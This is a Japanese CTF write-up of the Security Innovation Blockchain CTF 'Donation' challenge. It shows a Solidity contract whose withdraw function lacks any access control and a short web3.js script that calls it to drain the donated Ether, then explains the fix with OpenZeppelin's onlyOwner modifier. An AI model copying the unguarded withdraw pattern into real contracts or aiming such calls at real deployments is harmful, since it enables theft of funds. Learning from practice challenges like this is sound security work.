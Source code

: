 +++
title = "[Security Innovation Blockchain CTF] Donation"
date = "2022-05-11"
tags = [
    "security",
    "ctf",
]
draft = true
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Donation](https://blockchain-ctf.securityinnovation.com/#/game/0)という問題を解きました。

#### 問題

問題を開くと、寄付をするためのアプリケーションであることが分かります。

Donate 0.1 Ether!をクリックするとMetaMaskが起動し、0.1 Etherが寄付されます。

<img src=./dapps.png><br>

このアプリケーションのソースコードとして、以下のSolidityファイルが渡されます。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract Donation is CtfFramework{

    using SafeMath for uint256;

    uint256 public funds;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        funds = funds.add(msg.value);
    }

    function() external payable ctf{
        funds = funds.add(msg.value);
    }

    function withdrawDonationsFromTheSuckersWhoFellForIt() external ctf{
        msg.sender.transfer(funds);
        funds = 0;
    }

}
```

コードを読んでみると、`withdrawDonationsFromTheSuckersWhoFellForIt`という関数があるのが分かります。

この関数は、`msg.sender`に今まで寄付された`funds`を送信する関数で、呼び出し可能なユーザーに制限がありません。

そのため、この関数を呼び出すことで、今まで寄付されたEthereumを引き出すことが可能になります。

#### エクスプロイト

デプロイされたコントラクトの呼び出しには、[MyCrypto](https://mycrypto.com)などが利用できますが、
今回はあえて[web3.js](https://web3js.readthedocs.io/en/v1.7.3/)を使って書いてみます。

```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")
const fs = require('fs');

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
const abi = JSON.parse(fs.readFileSync('./src/abi.json'))
const contract = new web3.eth.Contract(abi, '0xaa51c14d9ff94ee5a5674ee0af8257f1665956f3')

// withdrawDonationsFromTheSuckersWhoFellForIt関数の呼び出し
const option = {from: '0xd7544D522B75347b48917649ebc5D334b3D43445'}
contract.methods.withdrawDonationsFromTheSuckersWhoFellForIt().send(option)
```

#### どう実装されているべきか

今回の問題は、コントラクトのオーナーのみが利用できるべき機能が、誰でも呼び出し可能になってしまっていることに問題があります。
そのため、コントラクト側でオーナーか否かの判定を入れれば良いことになります。

SolidityにはOpenZeppelinというライブラリがあり、
このライブラリには[Ownable](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol)というコントラクトがあります。

以下のように、`onlyOwner`という`modifier`をつけることで、デプロイしたオーナーのみが関数を呼び出せるように制限することが可能です。

詳細はドキュメントを参照してください。

https://docs.openzeppelin.com/contracts/2.x/access-control

```solidity
import "@openzeppelin/contracts/ownership/Ownable.sol";

contract A is Ownable {
    function somethingSecret() public onlyOwner {
        // オーナーからの呼び出しのみを許可
    }
}
```
